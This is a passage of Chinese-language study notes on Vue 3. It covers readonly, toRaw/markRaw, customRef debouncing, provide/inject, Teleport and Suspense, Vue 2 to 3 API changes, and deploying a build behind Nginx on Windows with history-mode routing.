  name: 'App',
  components:{Demo},
  setup(){
    let isShow = ref(true);
    return{
      isShow
    }
  }
}
</script>
```

Demo.vue

```vue
<template>
  <h4>当前求和为：{{sum}}</h4>
  <button @click="sum++">点我++</button>
  <hr>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <h2>薪资：{{job.j1.salary}}</h2>
  <button @click="name +='~'">修改姓名</button>
  <button @click="age++">增长年龄</button>
  <button @click="job.j1.salary++">增长薪资</button>
</template>

<script>
import {reactive, toRefs, ref,readonly} from "vue";
export default {
  name:'Demo',
  setup(){
    //数据
    let sum = ref(0);
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        j1:{
          salary:20
        }
      }
    })

    //返回一个对象
    return{
      sum,
      ...toRefs(person)
    }
  }
}
</script>

<style>

</style>
```

效果：可以修改这一个person的数据


**使用readonly函数来包装person使其只读**


效果：person不能被改变


**使用shallowReadonly包装person，使其第一层只读，salary不在第一层，可以被修改**




**对于Ref也可以使用readonly和shallowReadonly**

不过如果是基本数据类型实际用readonly和shallowReadonly是一样的。（只有一层）


**类似在团队开发中，全局工具类的定义中就可以定义readonly来保护数据**


**readonly和shallowReadonly在使用后，如果用户仍然想要修改，会在控制台弹出提示**


#### toRaw与markRaw

Raw：原始

toRaw：将一个响应式对象转为原始对象

* 我们在页面展示数据时，是直接定义的数据对象不是响应式的，也就不能在页面中使用，通常是使用Ref或Reactive来将原始对象转为响应式对象

* 当我们有些情况下需要将响应式对象转为原始对象时，需要借助toRaw（因为响应式对象不是原始对象）

* toRaw只能处理Reactive生成的响应式对象。

  

  

  

  

markRaw：将一个对象标记为原始对象

现在有一个需求：给person动态添加一个car信息。car是一个对象。按照原本的写法是可以实现的，因为person是响应式对象Proxy，所以给person添加的数据也都是响应式的。（Proxy会捕获任何属性的操作）

Demo.vue

```vue
<template>
  <h4>当前求和为：{{sum}}</h4>
  <button @click="sum++">点我++</button>
  <hr>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <h2>薪资：{{job.j1.salary}}</h2>
  <h2 v-show="person.car">座驾信息：{{person.car}}</h2>
  <button @click="name +='~'">修改姓名</button>
  <button @click="age++">增长年龄</button>
  <button @click="job.j1.salary++">增长薪资</button>
  <button @click="showRawPerson">点我输出原始的person</button>
  <button @click="addCar">给人添加一台车</button>
  <button @click="person.car.name+='!'">换车名</button>
  <button @click="person.car.price++">换价格</button>
</template>

<script>
import {reactive, toRefs, ref,toRaw} from "vue";
export default {
  name:'Demo',
  setup(){
    //数据
    let sum = ref(0);
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        j1:{
          salary:20
        }
      }
    })

    //点击事件回调方法
    function showRawPerson() {
      const p = toRaw(person)
      console.log(p)
    }
    function addCar() {
      let car = {name:'奔驰',price:40}
      person.car = car;
    }

    //返回一个对象
    return{
      sum,
      ...toRefs(person),
      showRawPerson,
      addCar,
      person
    }
  }
}
</script>

<style>

</style>
```

效果：可以动态添加Car属性，并且可以改名字和价格（证明这个新加入的对象属性是响应式的）




**使用markRaw属性让原本是响应式的数据变为普通原始对象**

因为直接添加进入Proxy对象里的数据会被转为响应式对象，而假设这一个外部插入的对象并没有修改的需求，并且这一个对象的内容很多，这个时候给这个对象做响应式就会消耗很多资源。

* 使用markRaw：让Car插入后仍为原始对象

Demo.vue

```vue
<template>
  <h4>当前求和为：{{sum}}</h4>
  <button @click="sum++">点我++</button>
  <hr>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <h2>薪资：{{job.j1.salary}}</h2>
  <h2 v-show="person.car">座驾信息：{{person.car}}</h2>
  <button @click="name +='~'">修改姓名</button>
  <button @click="age++">增长年龄</button>
  <button @click="job.j1.salary++">增长薪资</button>
  <button @click="showRawPerson">点我输出原始的person</button>
  <button @click="addCar">给人添加一台车</button>
  <button @click="person.car.name+='!'">换车名</button>
  <button @click="person.car.price++">换价格</button>
</template>

<script>
import {reactive, toRefs, ref, toRaw, markRaw} from "vue";
export default {
  name:'Demo',
  setup(){
    //数据
    let sum = ref(0);
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        j1:{
          salary:20
        }
      }
    })

    //点击事件回调方法
    function showRawPerson() {
      const p = toRaw(person)
      console.log(p)
    }
    function addCar() {
      let car = {name:'奔驰',price:40}
      //person.car = car;
      person.car = markRaw(car);
    }

    //返回一个对象
    return{
      sum,
      ...toRefs(person),
      showRawPerson,
      addCar,
      person
    }
  }
}
</script>

<style>

</style>
```

效果：


**总结**


#### customRef

custom：自定义

* 作用：创建一个自定义Ref，并对其依赖跟踪和更新触发进行显式控制

* 实现防抖效果

  实现一个输入框，输入内容后下面的h3标签等待1s后显示内容。如果是直接使用ref，则无法合理设计出该功能，但可以利用自定义方式，定义出一个会延迟1s的Ref对象。

  * ref()：生活中的精装房

  * customRef：生活中的毛坯房

  * customRef函数在调用的时候要传入一个函数，传入的函数要返回一个对象。返回的对象中要提供get和set方法。

    * 当有人想从自定义Ref读取内容时，get被调用
    * 当有人通过页面的v-model来影响数据时，set被调用

    

  * get需要返回一个值，这个值也就是模板所读取的值，这里我们通常就是读取myRef函数的传参。

  * set接收由类似v-model传递过来的新值，再将其更新到get所读取的值中。

    * 需要将新值更新到myRef的形参中，这样get调用时才能取到
    * 需要customRef的两个参数来提醒Vue更新模板
      * track：开启对值改变的最终，用在get中，当数据改变时支持追踪（默认不支持，不开启情况就算Vue触发更新都不会走搞get）【2】
      * trigger：触发器，触发Vue监视，去重新解析模板【1】

    

  * 到这里就完成一个自定义的Ref功能，其作用和普通ref一样

    Demo.vue

    ```vue
    <template>
      <input type="text" v-model="keyword">
      <h3>{{keyword}}</h3>
    </template>
    
    <script>
    import {ref,customRef} from 'vue'
    
    export default {
      name: 'App',
      setup(){
        //自定义Ref——名为Ref
        function myRef(value) {
          return customRef((track, trigger)=>{
            return{
              get(){
                console.log(`有人从myRef这个容器中读取数据了，我把${value}给他了`)
                track()//追踪value的改变
                return value
              },
              set(newValue){
                console.log(`有人把myRef这个容器中的数据改为了${newValue}给他了`)
                value = newValue //【闭包】因为读取数据都是走get，而这里拿到新数据时，get还在拿方法myRef调用时给的旧数据，这里就直接替换myRef的形参值
                trigger()//通知Vue去重新解析模板
              }
            }
          })
        }
    
        // let keyword = ref('hello')//使用Vue提供的ref
        let keyword = myRef('hello')//使用自定义Ref
        return{
          keyword
        }
      }
    }
    </script>
    ```

    效果：一开始触发get读取数据value（input读一次，h3读一次）

    

    输入框修改数据后，通过v-model传递newValue给set。set将newValue给value后，通知Vue解析，同时get也提供了追踪，所以可以被调用更新模板。

    

  * 实现一个数据会延迟1s读取的自定义Ref功能

    就是在更新数据和通知Vue解析时，等1s再操作。并做防抖操作

    Demo.vue

    ```vue
    <template>
      <input type="text" v-model="keyword">
      <h3>{{keyword}}</h3>
    </template>
    
    <script>
    import {ref,customRef} from 'vue'
    
    export default {
      name: 'App',
      setup(){
        //自定义Ref——名为Ref
        function myRef(value,delay) {
          let timer //定义全局
          return customRef((track, trigger)=>{
            return{
              get(){
                console.log(`有人从myRef这个容器中读取数据了，我把${value}给他了`)
                track()//通知Vue追踪value的变化（提前和get商量一下，让它认为这个value是有用的）
                return value
              },
              set(newValue){
                console.log(`有人把myRef这个容器中的数据改为了${newValue}给他了`)
                clearTimeout(timer)//每次进来就把还未完成的定时器给清除了，避免用户做很多无用操作给前端开一堆定时器压力，假使用户要敲1w次，那就在停的时候启动一个定时器将这1w个文字只开一个定时器更新1次
                timer = setTimeout(()=>{
                  value = newValue //【闭包】因为读取数据都是走get，而这里拿到新数据时，get还在拿方法myRef调用时给的旧数据，这里就直接替换myRef的形参值
                  trigger()//通知Vue去重新解析模板
                },delay)
              }
            }
          })
        }
    
        // let keyword = ref('hello')//使用Vue提供的ref
        let keyword = myRef('hello',500)//使用自定义Ref
        return{
          keyword
        }
      }
    }
    </script>
    
    ```

    效果：假使用户连续按了10次1，那么就只监听到最后一次修改时，启动1个定时器，改1次。（如果不这样做，那么用户在不断按1过程中，开很多定时器，页面出现显示文字抖动）

    

    

    

#### provide与inject

provide：提供

inject：注入

* 作用：实现祖孙组件间通信

  

  

* 套路：父组件有一个`provide`选项来提供数据，组组件由一个`inject`选项来使用这些数据。

* 在一个组件中编写provider后，在其后低啊都可以获取

  

代码：

App.vue 使用provider

```vue
<template>
  <div class="app">
    <h3>我是App组件（祖）{{name}}-{{price}}</h3>
    <Child/>
  </div>
</template>

<script>
import Child from '@/components/Child'
import {reactive, toRefs,provide} from "vue";

export default {
  name:'App',
  components:{Child},
  setup(){
    let Car = reactive({
      name:'宝马',
      price:'40w'
    })

    //内容提供者，给自己的后代组件传递数据
    provide('car',Car)

    return{
      ...toRefs(Car)
    }
  }
}
</script>

<style>
  .app{
    background-color: gray;
    padding: 10px;
  }
</style>
```

Child.vue 中间的一个组件，没在这次传递数据中起到作用

```vue
<template>
  <div class="child">
    <h3>我是Child组件（子）</h3>
    <Son/>
  </div>
</template>

<script>
import Son from '@/components/Son'

export default {
  name:'Child',
  components:{Son}
}
</script>

<style>
.child{
  background-color: skyblue;
  padding: 10px;
}
</style>
```

Son.vue 孙组件，使用inject来接收祖组件的数据

```vue
<template>
  <div class="son">
    <h3>我是Son组件（孙），{{Car.name}}--{{Car.price}}</h3>
  </div>
</template>

<script>
import {inject} from "vue";

export default {
  name:'Son',
  setup(){
    let Car = inject('car')
    return{
      Car
    }
  }
}
</script>

<style>
.son{
  background-color: orange;
  padding: 10px;
}
</style>
```

实现效果：


**在Vue2中，祖组件给孙组件传递的方式**

两次props传递、自定义事件、事件总线、Vuex


#### 响应式数据的判断

* isRef：检查一个只是否为一个ref对象
* isReactive：检查一个对象是否是由`reactive`创建的只读代理
* isReadonly：检查一个对象是否是由`readonly`创建的只读代理
* iProxy：检查一个对象是否是由`reactive`或者`readonly`方法创建的代理

代码：

App.vue

```vue
<template>
  <h3>我是App组件</h3>
</template>

<script>
import {reactive, ref,toRefs,readonly,isRef,isReactive,isReadonly,isProxy} from "vue";

export default {
  name:'App',
  setup(){
    let Car = reactive({
      name:'宝马',
      price:'40w'
    })
    let sum = ref(0)
    let Car2 = readonly(Car)//readonly处理了响应式数据Car，返回的Car2也是Proxy对象，但不提供写操作的入口

    //判断
    console.log(isRef(sum))
    console.log(isReactive(Car))
    console.log(isReadonly(Car2))
    console.log(isProxy(Car))
    console.log(isProxy(Car2))
    console.log(isProxy(sum))


    return{
      ...toRefs(Car),
      sum,
      Car2
    }
  }
}
</script>

<style>
  .app{
    background-color: gray;
    padding: 10px;
  }
</style>
```

效果：这里也顺便解释了readonly函数的返回值


### Composition API的优势

> 配置式Api的问题

使用传统 vue2 中的 Options API ，新增或者修改一个需求，就需要分别在 data 、methods、computed 里修改。（代码的查看清晰，如果代码很多，阅读体验差）


> Composition API 的优势 —— 组合式的API

我们可以更加优雅的组织我们的代码、函数，让相关功能的代码更加有序的组织在一起。（代码更加模块化）


 往往是把一个功能的所有状态、方法、都封装到一个函数里面，方便统一管理。

### 新的组件

#### Fragment组件

* 在Vue2中：组件必须有一个根标签（要定义div）

* 在Vue3中：组件可以没有跟标签，北部会将多个标签包含在一个Fragment虚拟元素中

  

  

* 好处：减少标签层级，减小内存占用


#### Teleport组件

Teleport：传送

假使目前有一个组件，使用了一个弹窗组件，但是在弹出来的时候将原本组件的样式给挤压了。


App.vue

```vue
<template>
  <div class="app">
    <h3>我是App组件</h3>
    <Child/>
  </div>
</template>

<script>
import Child from '@/components/Child'

export default {
  name:'App',
  components:{Child}
}
</script>

<style>
  .app{
    background-color: gray;
    padding: 10px;
  }
</style>
```

Child.vue

```vue
<template>
  <div class="child">
    <h3>我是Child组件</h3>
    <Son/>
  </div>
</template>

<script>
import Son from '@/components/Son'

export default {
  name:'Child',
  components:{Son}
}
</script>

<style>
.child{
  background-color: skyblue;
  padding: 10px;
}
</style>
```

Son.vue

```vue
<template>
  <div class="son">
    <h3>我是Son组件</h3>
    <Dialog/>
  </div>
</template>

<script>

import Dialog from "@/components/Dialog";
export default {
  name:'Son',
  components: {Dialog}
}
</script>

<style>
.son{
  background-color: orange;
  padding: 10px;
}
</style>
```

Dialog.vue

```vue
<template>
  <div>
    <button @click="isShow=true">点我弹窗</button>
    <div v-if="isShow" class="dialog">
      <h3>我是一个弹窗</h3>
      <h4>一些内容</h4>
      <h4>一些内容</h4>
      <h4>一些内容</h4>
      <button @click="isShow=false">关闭</button>
    </div>
  </div>
</template>

<script>
  import {ref} from "vue";

  export default {
    name:'Dialog',
    setup(){
      let isShow = ref(false)
      return {isShow}
    }
  }
</script>

<style>
.dialog{
  width: 300px;
  height: 300px;
  background-color: green;
}
</style>
```


弹窗的嵌入在最里面组件的，使用Teleport可以将弹窗给传送到外面（在外面弹就不会挤压其他组件了。）


**页面优化：模态框**

Dialog.vue

```vue
<template>
  <div>
    <button @click="isShow=true">点我弹窗</button>
    <teleport to="body"><!--将其传送到body层下面-->
      <div class="mask" v-if="isShow"><!--遮罩：跟随弹窗出现-->
        <div class="dialog">
          <h3>我是一个弹窗</h3>
          <h4>一些内容</h4>
          <h4>一些内容</h4>
          <h4>一些内容</h4>
          <button @click="isShow=false">关闭</button>
        </div>
      </div>
    </teleport>
  </div>
</template>

<script>
  import {ref} from "vue";

  export default {
    name:'Dialog',
    setup(){
      let isShow = ref(false)
      return {isShow}
    }
  }
</script>

<style>
.mask{
  position: absolute;/*定位*/
  top: 0;bottom: 0;left: 0;right: 0;/*完全撑开*/
  background-color: rgba(0,0,0,0.5);
}
.dialog{
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate(-50%,-50%);
  text-align: center;
  width: 300px;
  height: 300px;
  background-color: green;
}

</style>
```

效果：


#### Supense组件

等待异步组件时渲染一些额外内容，让应用有更好的用户体验。

适用场景：

* 网速慢
* 使用了Promise返回


> 静态引入

我们前面编写传统的父子组件，子组件通过import引入并在components中注册。这样的组件在加载时是同时加载出来的。


父子组件同时出现



> 异步组件


先加载父组件


再加载子组件


使用异步组件的场景：多个组件嵌套，如果是同步的。他如果最里面的组件加载缓慢，将导致全部组件渲染缓慢。


异步引入的缺点，用户在弱网情况下看到这一个逐步加载的画面，可能刚刚加载第一个时就以为网站出现问题了，产生错误理解。


像是这一种涉及的加载延迟的场景，之前也有介绍过一个隐藏属性：[v-cloak](####v-cloak)


**使用Supense就可以处理这种情况**

`<Supense></Supense>`是内部定义成[slot插槽](###slot插槽)效果。它提供了两个具名插槽。一个default用来展示真正的组件内容，一个fallback用来展示异步加载时的默认文本（Loading）

App.vue

```vue
<template>
  <div class="app">
    <h3>我是App组件</h3>
    <Suspense>
      <template v-slot:default>
        <Child/>
      </template>
      <template v-slot:fallback>
        <h3>稍等，加载中....</h3>
      </template>
    </Suspense>
  </div>
</template>

<script>
//静态引入
//import Child from '@/components/Child'

//动态引入（异步引入）
import {defineAsyncComponent} from "vue";
const Child = defineAsyncComponent(()=>import('@/components/Child'))

export default {
  name:'App',
  components:{Child}
}
</script>

<style>
  .app{
    background-color: gray;
    padding: 10px;
  }
</style>
```

效果：弱网加载时


完成全部加载后


**Supense除了解决弱网加载异步组件问题外，也是用于处理引用异步组件加载缓慢的问题**

在前面的定义中，setup是不能返回Promise对象，但是如果是适用了异步引入，那可以编写返回Promise对象。

App.vue

```vue
<template>
  <div class="app">
    <h3>我是App组件</h3>
    <Suspense>
      <template v-slot:default>
        <Child/>
      </template>
      <template v-slot:fallback>
        <h3>加载中....</h3>
      </template>
    </Suspense>
  </div>
</template>

<script>
//静态引入
//import Child from '@/components/Child'

//动态引入（异步引入）
import {defineAsyncComponent} from "vue";
const Child = defineAsyncComponent(()=>import('@/components/Child'))

export default {
  name:'App',
  components:{Child}
}
</script>

<style>
  .app{
    background-color: gray;
    padding: 10px;
  }
</style>
```

Child.vue

```vue
<template>
  <div class="child">
    <h3>我是Child组件</h3>
    {{sum}}
  </div>
</template>

<script>


import {ref} from "vue";

export default {
  name:'Child',
  setup(){
    let sum = ref(0);

    return new Promise((resolve, reject)=>{//构建返回体
      setTimeout(()=>{//设定1s后返回数据
        resolve({sum})
      },1000)
    })
  }
}
</script>

<style>
.child{
  background-color: skyblue;
  padding: 10px;
}
</style>
```

同时也可以编写async setup

```js
async setup(){
    let sum = ref(0);

    let p =  new Promise((resolve, reject)=>{//构建返回体
      setTimeout(()=>{//设定1s后返回数据
        resolve({sum})
      },3000)
    })

    return await p
  }
```


### 其他改变

#### 全局API的转移

* Vue2.x中有许多全局API和配置

  例如注册全局组件、注册全局指令

  ```js
  //注册全局组件
  Vue.component('MyButton',{
      data:()=>({
          count:0
      }),
      template:'<button @click="count++">Clicked{{count}}times.</button>'
  })
  //注册全局指令
  Vue.directive('focus',{
      inserted: el=>el.focus()
  })
  ```

* Vue3中对这些API做了调整

  将全局的API，即`Vue.xxx`调整到应用实例（`app`）上

  |   2.x全局API（`Vue`）    |    3.x实例API（`app`）上    |
  | :----------------------: | :-------------------------: |
  |      Vue.config.xxx      |       app.config.xxx        |
  | Vue.config.productionTip |            移除             |
  |      Vue.component       |        app.component        |
  |      Vue.directive       |        app.directive        |
  |        Vue.mixin         |          app.mixin          |
  |         Vue.use          |           app.use           |
  |      Vue.prototype       | app.config.globalProperties |

#### 其他改变

* data选项应始终被声明为一个函数

* 过渡类名的更改

  * Vue2.x写法

    ```css
    .v-enter,
    .v-leave-to{
        opacity:0;
    }
    .v-leave,
    .v-enter-to{
        opacity:1;
    }
    ```

  * Vue3.x写法

    ```css
    .v-enter-from,
    .v-leave-to{
        opacity:0;
    }
    .v-leave-from,
    .v-enter-to{
        opacity:1;
    }
    ```

* 移除KeyCode作为v-on的修饰符，同时也不支持`config.keyCodes`

* 移除`v-on.native`修饰符

  * 父组件中绑定事件

    ```html
    <my-component
    	v-on:close="handleComponentEvent",
    	v-on:click="handleNativeClickEvent"
    />
    ```

  * 子组件中声明自定义事件

    ```html
    <script>
    export default{
        emits:['close']
    }
    </script>
    ```

* 移除过滤器（filter）

  过滤器虽然看起来很方便，但需要自定义语法，打破大括号内表达式 "只是JavaScript"的假使，这不仅有学习成本，而且有实现成本！建议用方法调用或计算属性去替换过滤器。


## 常见问题

### win10Nginx部署vue项目

#### 项目打包

脚手架的配置中提供了2个常用的功能：

* server : 开启一个服务器
* build：编译项目vue为html，css，js文件


开始编译：

```shell
npm run build
```


编译出来的文件存放在dist文件夹。是纯粹的html、css、js代码


这一个项目代码得在服务器上部署才能访问。这里我们使用nginx进行部署。

#### 下载Nginx

这个请参考 Nginx学习中的步骤。


#### 配置Nginx


* 先将nginx进行停止

  

* 复制dist文件目录

  这里我就直接将自己的当前这一个idea生成目录当作项目目录（在实际开发中是会在Linux系统中指定存放地址）

  

* 配置nginx

  修改配置文件：

  

  修改主路径的访问映射

  

  改为dist目录

  

* 重新启动Nginx或者前面不讲Nginx关闭而是使用重新加载配置命令

  ```shell
  # 启动Nginx
  start nginx
  # 重新读取配置
  nginx -s reload
  ```

* 查看Nginx服务运行状态

  ```shell
  tasklist /fi "imagename eq nginx.exe"
  ```

  

* 如果遇到启动异常（比如没正确关闭再重新启动可能启动多个Nginx且无法用stop命令关闭）

  ```shell
  # 根据前面查看运行状态得知进程号PID
  # 进行进程杀死
  TASKKILL /F /PID 13352
  ```


#### 访问项目

* 访问vue项目

  因为是直接修改Nginx的原始配置，所以对应监听80端口。

  http://localhost:80

* 其他情况

  比如遇到改了配置，也正确指向了vue项目，也成功重新加载配置。但还是显示原先的Nginx欢迎页，此时可能是浏览器缓存，使用Ctrl+F5强制刷新。

访问效果：


#### 处理路由404

这一个是由于使用了Vue路由history模式所会出现的一个问题：

像是在点击到3级路由时，这个组件路由过程所出现的路径都会被识别为路由路径。


但这会存在一个问题，就是当用户保存这一个路由路径用作下次访问时的地址。或是用户在当前位置点击了浏览器的刷新时，浏览器会拿这一串地址：http://localhost/home/message/details?id=003&title=%E6%B6%88%E6%81%AF003 当作HTTP请求地址，去访问前端服务器。


因为我们前端服务器是没有这部分的处理的，就算有在代理后去后端时也没法处理这种请求。因为其本身是用在前端路由的，这个时候我们可以在Nginx中配置一个路由处理。

```nginx
http {
	//...
    server {
        # 监听端口
        listen 8088;
        # 主机名称
        # server_name www.xyq.com;
        # 根目录
        root F:\project\vue_test01\dist;
        
        # 匹配协议
        location / {
            # 需要指向下面的 @router 否则会出现 Vue 的路由在 Nginx 中刷新出现 404
            # try_files $uri $uri/ @router;
            index index.html index.htm;
        }
        
        # 对应上面的 @router，主要原因是路由的路径资源并不是一个真实的路径，所以无法找到具体的文件
        # 因此需要 rewrite 到 index.html 中，然后交给路由在处理请求资源
        location @router {
            rewrite ^.*$ /index.html last;
        }
        # 代理
        # location /api/ {
        #     proxy_pass http://10.0.90.164:8086/;
        # }
    }
}
```

大概原理就是识别出Vue的路由地址，将这部分前端路由由项目处理，不做http请求

```nginx
server
    {
        listen 80;
        server_name xxxx.xyz;
        …… 其他路由
        location /此Vue路由名
        {
          alias /www/wwwroot/放置Vue页面的目录/;
          try_files $uri $uri/ /此Vue路由名/index.html;
          index index.html index.htm;
        }
        location /oneApi
        {
            rewrite ^.+oneApi/?(.*)$ /$1 break;
            proxy_pass https://apier.youngam.cn;
        }
    }

```

如果有多个路由站点则可以参考这篇文章：https://www.jianshu.com/p/a712947bb374


根据上面的配置，我们只需要在location中配置一个路径识别即可

```
try_files $uri $uri/ /index.html;
```

我的win10Nginx配置

```nginx

#user  nobody;
worker_processes  1;

#error_log  logs/error.log;
#error_log  logs/error.log  notice;
#error_log  logs/error.log  info;

#pid        logs/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;

    #log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
    #                  '$status $body_bytes_sent "$http_referer" '
    #                  '"$http_user_agent" "$http_x_forwarded_for"';

    #access_log  logs/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    #keepalive_timeout  0;
    keepalive_timeout  65;

    #gzip  on;

    server {
        listen       80;
        server_name  localhost;

        #charset koi8-r;

        #access_log  logs/host.access.log  main;

        location / {
            root   F:\project\vue_test01\dist;
            index  index.html index.htm;
            try_files $uri $uri/ /index.html;
        }

        #error_page  404              /404.html;

        # redirect server error pages to the static page /50x.html
        #
        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }

        # proxy the PHP scripts to Apache listening on 127.0.0.1:80
        #
        #location ~ \.php$ {
        #    proxy_pass   http://127.0.0.1;
        #}

        # pass the PHP scripts to FastCGI server listening on 127.0.0.1:9000
        #
        #location ~ \.php$ {
        #    root           html;
        #    fastcgi_pass   127.0.0.1:9000;
        #    fastcgi_index  index.php;
        #    fastcgi_param  SCRIPT_FILENAME  /scripts$fastcgi_script_name;
        #    include        fastcgi_params;
        #}

        # deny access to .htaccess files, if Apache's document root
        # concurs with nginx's one
        #
        #location ~ /\.ht {
        #    deny  all;
        #}
    }


    # another virtual host using mix of IP-, name-, and port-based configuration
    #
    #server {
    #    listen       8000;
    #    listen       somename:8080;
    #    server_name  somename  alias  another.alias;

    #    location / {
    #        root   html;
    #        index  index.html index.htm;
    #    }
    #}


    # HTTPS server
    #
    #server {
    #    listen       443 ssl;
    #    server_name  localhost;

    #    ssl_certificate      cert.pem;
    #    ssl_certificate_key  cert.key;

    #    ssl_session_cache    shared:SSL:1m;
    #    ssl_session_timeout  5m;

    #    ssl_ciphers  HIGH:!aNULL:!MD5;
    #    ssl_prefer_server_ciphers  on;

    #    location / {
    #        root   html;
    #        index  index.html index.htm;
    #    }
    #}

    # server {
    #     # 监听端口
    #     listen 8088;
    #     # 主机名称
    #     # server_name www.xyq.com;
    #     # 根目录
    #     root F:\project\vue_test01\dist;
    #     # 匹配协议
    #     location / {
    #         # 需要指向下面的 @router 否则会出现 Vue 的路由在 Nginx 中刷新出现 404
    #         # try_files $uri $uri/ @router;
    #         index index.html index.htm;
    #     }
    #     # 对应上面的 @router，主要原因是路由的路径资源并不是一个真实的路径，所以无法找到具体的文件
    #     # 因此需要 rewrite 到 index.html 中，然后交给路由在处理请求资源
    #     location @router {
    #         rewrite ^.*$ /index.html last;
    #     }
    #     # 代理
    #     # location /api/ {
    #     #     proxy_pass http://10.0.90.164:8086/;
    #     # }
    # }


}
```

重新读取nginx配置


实现效果就是，在使用history模式后，访问到3级路由再点刷新也是保持当前路由状态，没有出现404.


